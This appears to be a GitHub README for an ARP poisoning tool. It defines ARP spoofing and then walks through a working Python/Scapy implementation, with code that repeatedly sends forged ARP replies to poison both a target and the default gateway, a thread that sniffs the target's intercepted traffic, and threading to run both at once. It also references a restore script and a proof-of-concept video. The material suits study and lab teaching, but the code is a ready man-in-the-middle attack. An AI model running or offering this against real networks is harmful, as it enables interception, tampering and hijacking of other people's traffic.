 # ARP Poisoning

ARP spoofing, ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends (spoofed) Address Resolution Protocol (ARP) messages onto a local area network. Generally, the aim is to associate the attacker's MAC address with the IP address of another host, such as the default gateway, causing any traffic meant for that IP address to be sent to the attacker instead.

ARP spoofing may allow an attacker to intercept data frames on a network, modify the traffic, or stop all traffic. Often the attack is used as an opening for other attacks, such as denial of service, man in the middle, or session hijacking attacks.

# Implementation
1. **Import Statements and Configuration**:
    - `from scapy.all import *`: Imports all functions and classes from the Scapy library, which is a powerful packet manipulation library.
    - `import threading`: Imports the threading module, which allows for the creation of threads.
    - `import time`: Imports the time module for time-related functions.
    - `conf.checkIPaddr = False`: Disables Scapy's IP address checking, allowing ARP packets to be sent without matching the sender's IP address.


2. **Variables**:  
    - `interval`: Time interval (10 seconds) between sending ARP packets.
    - `DEFAULT_GATEWAY`: IP address of the network's default gateway (e.g., a router).
    - `TARGET_IP`: IP address of the target machine within the network.


3. **Packet Sniffing Function (`sniff_packets`)**:  
    - `process_packet`: A function that processes each sniffed packet. It checks if the packet's source MAC address matches that of the target IP. If it does, the packet summary is printed.
    - `sniff`: Sniffs the network packets on the "Ethernet" interface and applies the `process_packet` function to each packet.
```python
def process_packet(packet):
    if packet.fields["src"] == getmacbyip(TARGET_IP):
        print(packet.summary())

def sniff_packets():
    sniff(iface = "Ethernet", prn = process_packet)
```


4. **ARP Spoofing Function (`send_packets`)**:
    - `spoof`: Creates an ARP reply packet that falsely tells the target machine that the attacker's machine has the IP of the default gateway, and vice versa. This way, the attacker's machine becomes the man-in-the-middle.
    - The `spoof` function is called repeatedly in a loop for both the target and the default gateway, causing both to associate the attacker's MAC address with the other's IP address.
```python
def spoof(target_ip, spoof_ip):
    arp_reply = ARP(op = 2, pdst = target_ip, hwdst = getmacbyip(target_ip), psrc = spoof_ip)
    send(arp_reply, verbose = False)

def send_packets():
    while True:
        spoof(TARGET_IP, DEFAULT_GATEWAY)
        spoof(DEFAULT_GATEWAY, TARGET_IP)
        time.sleep(interval)
```


5. **Threads Creation and Execution**:
    - `thread1` and `thread2` are created to run `sniff_packets` and `send_packets` functions, respectively.
    - The threads are started, allowing simultaneous execution of packet sniffing and ARP spoofing.
```python
thread1 = threading.Thread(target=sniff_packets)
thread1.start()

thread2 = threading.Thread(target=send_packets)
thread2.start()
```


# Restore
The `restore.py` script restores the initial state of the ARP table of the target and the default gateway.


# PoC
![YouTube](./PoC.mp4)

